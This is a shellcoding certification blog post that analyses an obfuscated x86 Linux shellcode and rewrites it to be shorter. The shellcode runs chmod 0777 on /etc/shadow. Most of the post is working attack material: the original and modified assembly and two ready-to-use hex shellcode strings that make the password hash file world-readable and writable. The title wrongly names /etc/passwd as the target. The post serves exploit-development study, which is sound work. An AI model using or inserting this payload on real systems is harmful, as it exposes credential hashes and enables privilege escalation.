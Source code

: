 # Shellcode - chmod 0777 /etc/passwd

The original /etc/shadow permissions are set to 640, so this command will reset permissions back to the default on Ubuntu.
```bash
chmod 640 /etc/shadow
```

Here, I chose this shellcode from [http://shell-storm.org/shellcode/files/shellcode-875.php](http://shell-storm.org/shellcode/files/shellcode-875.php). The note says that it is a bit obfuscated, so I thought it would be interesting to see what this means at an instruction level. I will be removing the obfuscation, so the extra credit shouldn't count for making this one shorter, I just wanted to analyze this piece of assembly to understand some techniques for obfuscation.

# Disassembly

Here is the disassembly commented with my quick notes. I see they are obfuscating the string "adow" and using techniques such as `mov ebx, eax; xor eax, ebx` to perhaps obfuscate an `xor eax, eax`.

```assembly
section .text
global _start

_start: 
    mov ebx, eax
    xor eax, ebx            ; = xor eax, eax
    push dword eax

    ; push obfuscated "adow" string
    mov esi, 0x563a1f3e
    add esi, 0x21354523
    mov dword [esp-4], esi              ; "adow"

    mov dword [esp-8], 0x68732f2f       ; "hs//"
    mov dword [esp-12], 0x6374652f      ; "cte/"
    sub esp, 12
    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

```

Shellcode (length: 51 bytes)

```c
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f\x3a\x56\x81\xc6\x23\x45\x35\x21\x89\x74\x24\xfc\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80"
```

# Changes

I start the modifications by just xor'ing and removing the previous mov instruction to set eax to 0x0.

```assembly
; mov ebx, eax
; xor eax, ebx            ; = xor eax, eax
xor eax, eax
```

Next I remove the deobfuscated string, and change the mov instructions to push instructions in order to get the string "/etc//shadow" onto the stack.

```assembly
; ; push obfuscated "adow" string
; mov esi, 0x563a1f3e
; add esi, 0x21354523
; mov dword [esp-4], esi              ; "adow"
; mov dword [esp-8], 0x68732f2f       ; "hs//"
; mov dword [esp-12], 0x6374652f      ; "cte/"
; sub esp, 12
push 0x776f6461         ; "woda"
push 0x68732f2f         ; "hs//"
push 0x6374652f         ; "cte/"
```

The rest of the instructions are the same, however, I also added a call to exit() so the shellcode exits gracefully. Since we can assume the chmod returns the value of 0 upon success, I will increment it's value to `0x1` and execute the exit() syscall.

```assembly
inc eax
int 0x80
```

# New Disassembly + Shellcode

```assembly
section .text
global _start

_start: 
    ; mov ebx, eax
    ; xor eax, ebx            ; = xor eax, eax
    xor eax, eax
    
    push dword eax

    ; ; push obfuscated "adow" string
    ; mov esi, 0x563a1f3e
    ; add esi, 0x21354523
    ; mov dword [esp-4], esi              ; "adow"
    ; mov dword [esp-8], 0x68732f2f       ; "hs//"
    ; mov dword [esp-12], 0x6374652f      ; "cte/"
    ; sub esp, 12
    push 0x776f6461         ; "woda"
    push 0x68732f2f         ; "hs//"
    push 0x6374652f         ; "cte/"

    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

    inc eax
    int 0x80
```

New Shellcode (Lenth: 33)

```c
"\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80\x40\xcd\x80"
```




# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly


